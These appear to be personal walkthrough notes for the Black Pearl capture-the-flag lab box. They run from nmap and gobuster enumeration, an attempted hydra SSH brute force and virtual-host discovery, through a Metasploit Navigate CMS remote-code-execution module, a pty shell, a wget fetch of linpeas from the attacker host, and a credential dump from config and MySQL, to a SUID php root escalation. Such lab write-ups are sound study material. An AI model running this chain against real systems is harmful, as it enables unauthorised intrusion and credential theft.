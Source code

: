 $nmap -A -p- 192.168.86.199
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
    |   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
    |_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
    53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux) 
    | dns-nsid:
    |_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
    80/tcp open  http    nginx 1.14.2 ****
    |_http-title: Welcome to nginx!
    |_http-server-header: nginx/1.14.2
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

ffuf - No good

    http://<ip>
    + <body>
    + <!-- Webmaster: alek@blackpearl.tcm -->
    + <html>

gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --wildcard 2>/dev/null | grep "Status: 200"
/secret               (Status: 200) [Size: 209]
    DL file:
        OMG you got r00t !
        Just kidding... search somewhere else. Directory busting won't give anything.
        <This message is here so that you don't waste more time directory busting this particular website.>

hydra -hydra -l alek -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.199 
    may need a customized list? "crunch"

dnsrecon -r 127.0.0.0/24 -n 192.168.86.199 -d extra (-d is domain && any domain is required) ** Virtual Host Routing**
        [*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
        [+] 	 PTR blackpearl.tcm 127.0.0.1
        [+] 1 Records Found
    + sudo vi /etc/hosts
        <ip>    blackpearl.tcm
        http://blackpearl.tcm
            Linux blackpearl 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 
        fuff once again:
            /nagivate - login.php ( Navigate CMS v2.8, © 2021)
                    **Always google new environment**
                https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/  
        msfconsole use use exploit/multi/http/navigate_cms_rce
                set domain - blackpearl.tcm : run
    + meterpreter > shell
        python -c 'import pty;pty.spawn("/bin/sh")'
            pwd: ~/blackpearl.tcm/navigate 
                ls -alth (gives us higher privs)
                    wget http://<ip>/linpeas.sh linpeas.sh
    +linpeas.sh:
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_PASSWORD', "H4x0r");
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_USERNAME', "alek");
        + mysql -u alek -p (pw H4x0r) :: Success
            show databases; show tables; use navigate
                select * from nv_users;
                    alek && PW: 26f1e0e7b718d27e0428e1b3b4b3f677
        ssh alek@<ip> -p H4x0r :: success
            find / -perm /6000 2</dev/nul (https://gtfobins.github.io/gtfobins/php/#suid)
                /php - GTFObins - click php -> SUID
                    /usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);" ::  **Success**
                        # whoami
                          root
                            cd root/ && cat flag.txt ::
                                Good job on this one.
                                Finding the domain name may have been a little guessy,
                                but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.

                    